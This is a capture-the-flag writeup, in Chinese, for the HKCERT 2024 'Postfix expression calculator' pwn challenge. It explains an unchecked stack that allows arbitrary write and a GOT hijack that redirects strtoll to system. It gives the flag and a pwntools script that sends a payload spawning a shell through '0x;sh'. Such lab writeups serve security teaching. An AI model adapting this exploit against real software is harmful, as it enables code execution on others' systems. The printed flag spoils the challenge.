


# pwn - Postfix expression calculator Writeup

---  



  
## FLAG：
`hkcert24{aN0ther_K1nD_0f_Stack_0fverfl0w}`
  
## 觀察：

- 題目有實作一個stack，他並沒有檢查boundary，因此可以執行Arbitrary write。
- Partial RELRO，可以進行GOT hijacking。 

  
## 目標：

- 透過計算機的運算與pop()、push()，將`strtoll()`的GOT調整成`system()`的address，再用`0x;sh`觸發shell的執行。其中，要避免更動到`stack_top`與`__ctype_b_loc`的GOT，否則`isspace()`會segmentation fault。

## Exploit：  

  

```python
from pwn import *
  
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
system_addr  = libc.symbols['system']
strtoll_addr = libc.symbols['strtoll']
  
# r = process("env/chal/src/chal")
r = remote("c54-profix-calc.hkcert24.pwnable.hk", 1337, ssl=True)
r.recvuntil(b'expression(e.g. 9 6 - 11 *): ')
payload = b"* * * * * * * * + + * + + + 0 * " +str(system_addr-strtoll_addr).encode() + b" + + 0x;sh"
r.sendline(payload)
r.interactive()
```


